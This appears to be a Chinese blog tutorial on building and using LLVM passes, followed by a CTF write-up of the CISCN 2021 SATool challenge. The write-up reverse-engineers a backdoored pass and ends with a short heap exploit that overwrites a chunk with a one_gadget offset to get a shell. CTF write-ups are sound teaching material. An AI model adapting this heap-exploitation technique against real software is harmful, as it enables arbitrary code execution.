 ```yaml
---
title: LLVM PASS环境搭建与基本使用 
index_img: img/article/llvmCreate/image-20220630221103947.png
excerpt: 本文用于介绍PWN中解释器类型题目所需环境搭建
---
```


## LLVM Pass 环境搭建

### 预编译包的安装

在Ubuntu上，可以直接通过`apt`安装llvm和clang：

```bash
$ sudo apt install llvm
$ sudo apt install clang
```

### 编译安装

```bash
$ cd llvm-project
$ mkdir build && cd build
$ cmake -G "Unix Makefiles" -DLLVM_ENABLE_PROJECTS="clang" \
    -DCMAKE_BUILD_TYPE=Release -DLLVM_TARGETS_TO_BUILD="X86" \
    -DBUILD_SHARED_LIBS=On ../llvm
$ make
```

## 基本操作

### Hello Pass 编写

随意找一处作为项目文件夹Hello，并编写main.c如下所示

```c
#include <stdio.h>

void loorain(){}

void pwn(){}

int main() {
    printf("Hello World LLVM PASS");
    return 0;
}
```

编写Hello.cpp如下，如下代码含义可阅读官方文档：[Writing an LLVM Pass — LLVM 15.0.0git documentation](https://llvm.org/docs/WritingAnLLVMPass.html#introduction-what-is-a-pass)

```c++
#include "llvm/Pass.h"
#include "llvm/IR/Function.h"
#include "llvm/Support/raw_ostream.h"
#include "llvm/IR/LegacyPassManager.h"
#include "llvm/Transforms/IPO/PassManagerBuilder.h"

using namespace llvm;

namespace {
    struct Hello : public FunctionPass {
        static char ID;
        Hello() : FunctionPass(ID) {}
        
        bool runOnFunction(Function &F) override {
            errs() << "Hello: ";
            errs().write_escaped(F.getName()) << '\n';
            return false;
        }//遍历所有的函数名称，并以“Hello：<函数名>”的形式输出
    };
}

char Hello::ID = 0;
//for opt
static RegisterPass<Hello> X("hello", "Hello world Pass", false, false);
//for clang
static llvm::RegisterStandardPasses Y(
    llvm::PassManagerBuilder::EP_EarlyAsPossible,
    [](const llvm::PassManagerBuilder &Builder,
       llvm::legacy::PassManagerBase &PM) { PM.add(new Hello()); });
```

### 命令行编译

```bash
$ clang `llvm-config --cxxflags` -Wl,-znodelete -fno-rtti -fPIC -shared Hello.cpp -o LLVMHello.so `llvm-config --ldflags`   
```

- `llvm-config`提供了`CXXFLAGS`与`LDFLAGS`参数方便查找LLVM的头文件与库文件。 如果链接有问题，还可以用`llvm-config --libs`提供动态链接的LLVM库。 具体`llvm-config`打印了什么，请自行尝试或查找官方文档。
- `-fPIC -shared` 显然是编译动态库的必要参数。
- 因为LLVM没用到RTTI，所以用`-fno-rtti` 来让我们的Pass与之一致。
- `-Wl,-znodelete`主要是为了应对LLVM 5.0+中加载ModulePass引起segmentation fault的bug。如果你的Pass继承了ModulePass，还请务必加上。

现在，你手中应该有一份编译好的LLVMHello.so了。根据刚才阅读过的官方文档的介绍，你知道可以通过命令

```bash
$ clang -S -emit-llvm main.c -o main.ll
#这里也可以使用'clang -c -emit-llvm main.c -o main.bc'区别在于bc文件是二进制文件无法阅读
$opt -load LLVMHello.so -hello main.ll -o main
#这里的 -hello由Hello.cpp中的static RegisterPass<Hello> X参数决定
```

> 在使用opt进行动态链接时，可能会出现错误：Error opening 'LLVMHello.so': LLVMHello.so: cannot open shared object file: No such file or directory
>
> 这实际是由于linux中动态链接库的存放地点一般比较固定，无法在默认地址搜索到名为LLVMHello.so的动态链接库，那么我们可以在.bashrc或.zshrc中加入代表当前目录的地址，如下所示：
>
> export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:.  

![效果图](img/article/llvmCreate/1.png)

如图所示，我们确实输出了main.c中所有函数名称


## 例题一：CISCN 2021 SATool

### 逆向分析

这类题目对我们有用的部分opt和so文件，逆向分析SAPass.so文件

![image-20220630204900814](img/article/llvmCreate/image-20220630204900814.png)

在`start`函数中，主要内容是注册了一些函数，没什么有用的信息。在分析so文件时，一般重点是分析重写的`runOnFunction`函数，我们大多可以在函数表的最下方找到重写的`runOnFunction`函数

![image-20220630205306216](img/article/llvmCreate/image-20220630205306216.png)

在这里我们看到`sub_19D0`就是我们要找的函数，分析函数内容，这也是在我看来LLVM PASS 类题目最核心的地方——代码逆向分析。毕竟一个函数就要整整550行，能够快速地筛选什么是关键信息，什么是垃圾信息是关键。

![image-20220630210526791](img/article/llvmCreate/image-20220630210526791.png)

函数一开头就判断了我们的函数名称是不是`B4ckDo0r`, 这里由于Name的类型是QWORD存储，并非直接字符串，所以要反过来读。之后又分了5个操作分别是save, takeway, stealkey, fakekey, run.

在save操作中，进行了堆块的创建

![image-20220630211613541](img/article/llvmCreate/image-20220630211613541.png)

在stealkey中，将刚刚申请的heap中内容给了204100（takeway也是跳转到了stealkey中）

![image-20220630211950647](img/article/llvmCreate/image-20220630211950647.png)

在fakekey中，将heap的内容加上了参数的值，即可编辑heap的内容（这里的heap_con就是204100，我改了个名字）

![image-20220630212337680](img/article/llvmCreate/image-20220630212337680.png)

run函数，就是直接call *heap

![image-20220630213353185](img/article/llvmCreate/image-20220630213353185.png)

### GDB 调试LLVM PASS

首先我们编写部分exp，类似我们动态做普通的PWN题目。

```bash
$ clang -S -emit-llvm exp.c -o exp.ll -v
#这里加上 -v 可以显示出详细参数
```

我们主要途中圈的这一部分

![image-20220630221103947](img/article/llvmCreate/image-20220630221103947.png)

> -triple x86_64-pc-linux-gnu -emit-llvm -disable-free -disable-llvm-verifier -discard-value-names -main-file-name exp.c -mrelocation-model static -mthread-model posix -mframe-pointer=all -fmath-errno -fno-rounding-math -masm-verbose -mconstructor-aliases -munwind-tables -target-cpu x86-64 -dwarf-column-info -fno-split-dwarf-inlining -debugger-tuning=gdb -v -resource-dir /usr/lib/llvm-10/lib/clang/10.0.0 -internal-isystem /usr/local/include -internal-isystem /usr/lib/llvm-10/lib/clang/10.0.0/include -internal-externc-isystem /usr/include/x86_64-linux-gnu -internal-externc-isystem /include -internal-externc-isystem /usr/include -fdebug-compilation-dir /home/loorain/ciscn/CISCN_2021_pwn/SATool_附件 -ferror-limit 19 -fmessage-length 0 -fgnuc-version=4.2.1 -fobjc-runtime=gcc -fdiagnostics-show-option -fcolor-diagnostics -faddrsig -o exp.ll -x c exp.c

在另一终端中使用如下指令,即可开始调试

```bash
$ gdb clang
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
......
......
pwndbg> set args -triple x86_64-pc-linux-gnu -emit-llvm -disable-free -disable-llvm-verifier -discard-value-names -main-file-name exp.c -mrelocation-model static -mthread-model posix -mframe-pointer=all -fmath-errno -fno-rounding-math -masm-verbose -mconstructor-aliases -munwind-tables -target-cpu x86-64 -dwarf-column-info -fno-split-dwarf-inlining -debugger-tuning=gdb -v -resource-dir /usr/lib/llvm-10/lib/clang/10.0.0 -internal-isystem /usr/local/include -internal-isystem /usr/lib/llvm-10/lib/clang/10.0.0/include -internal-externc-isystem /usr/include/x86_64-linux-gnu -internal-externc-isystem /include -internal-externc-isystem /usr/include -fdebug-compilation-dir /home/loorain/ciscn/CISCN_2021_pwn/SATool_附件 -ferror-limit 19 -fmessage-length 0 -fgnuc-version=4.2.1 -fobjc-runtime=gcc -fdiagnostics-show-option -fcolor-diagnostics -faddrsig -o exp.ll -x c exp.c
pwndbg> b main
Breakpoint 1 at 0x40da90
pwndbg> n
The program is not being run.
pwndbg> r
```

### 解题思路&EXP

- 先申请多个chunk讲tache腾空，以申请unsortbin中的chunk

- 在申请unsortbin时，第一个参数放置’\x00‘以此保留libc信息

- 利用stealkey和fakekey将chunk中的fd更改为onegadget

- 然后利用run直接getshell

  ```c
  #include <stdio.h>
  int run(){return 0;};
  int save(char *a1,char *a2){return 0;};
  int fakekey(int64){return 0;};
  int takeaway(char *a1){return 0;};
  int stealkey(){return 0;};
  int B4ckDo0r()
  {
          save("aaaa","aaaa");
          save("aaddd","aadd");
          save("ssss","sss");
          save("ssss","sssss");
          save("sssss","sssss");
          save("sssss","sssss");
      save("sssss","sssss");
          save("\x00","ssssss");
          stealkey();
          fakekey(-0x2E19b4);
          run();
   
  }
  ```